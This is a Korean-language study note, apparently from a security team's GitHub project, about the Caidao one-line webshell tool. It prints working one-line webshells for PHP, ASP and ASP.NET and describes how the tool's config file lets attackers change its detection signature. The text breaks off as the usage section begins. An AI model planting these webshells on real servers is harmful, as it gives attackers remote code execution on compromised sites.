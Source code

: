 # Caidao-20160620 툴을 이용한 One Line WebShell
##### 원작자: 문광일 PM
##### 링크: [KOROMOON][koromoonlink]
[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"
##### 작성자: 강하늘 사원
##### 작성일자: 2024년 4월 18일

## ( 1 ) One Line WebShell
   
      PHP     :    <?php @eval($_POST['koromoon']);?>
      ASP     :    <%eval request("koromoon")%>
      ASP.NET :    <%@ Page Language="Jscript"%><%eval(Request.Item["koromoon"],"unsafe");%>

피해자 웹서버에 한 줄짜리 코드를 삽입한 후 공격자가 실행하고자 하는 코드를 전송하여 결과값을 얻는 웹쉘을 말함.
웹쉘 파일을 업로드하거나 특정 페이지에 실행 가능한 코드 한 줄을 삽입하면 됨.
삽입된 코드는 탐지하기 매우 어려움. 더군다나 우회 기법을 사용하면 더더욱 탐지하기 어려움.

## ( 2 ) One Line WebShell 공격 순서도

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/cbda7b72-37fc-409d-8757-98ad964d64e9)

< 공격 순서도 >


## ( 3 ) caidao 툴

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/0c4fcfe4-b145-4133-b83f-e9a8bd7a1cbf)

< caidao 메인 화면 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/4f50bd80-83d6-441e-958a-082ea3a1169e)

< caidao 구성 파일 >

사용법이 간단한 POST 기반 One Line WebShell 툴로 중국 툴임.
최신 버전(20160620)에는 기존 버전과 다르게 설정 파일(caidao.conf)을 추가하여 실행 코드에 대한 우회 기법을 추가 및 수정 가능하며 Response 에 따른 고유의 FLAG 문자열을 바꿀 수 있음.
또한, HTTP 헤더의 User-Aget 필드값도 수정 가능함.

참고로 기존 FLAG 문자열은 "->|" 와 "|<-" 로 설정 파일이 없는 관계로 수정 불가능함.
그래서 해당 문자열을 가지고 보안장비 탐지룰를 등록하여 탐지하도록 할 수 있었으나 최신 버전에서는 공격자가 원하는 FLAG 문자열로 바꿀 수 있음.
(최신 버전 디폴트 FLAG 문자열 : X@Y, 3 글자 선에서 원하는 문자열로 변경 가능함)

caidao 관련 파일들 중에 몇 가지 파일의 용도는 아래와 같음.
caidao.conf - 설정 파일
CCC 폴더 - 플러그인 폴더



## ( 4 ) caidao 툴 사용법

1. 상단 메뉴
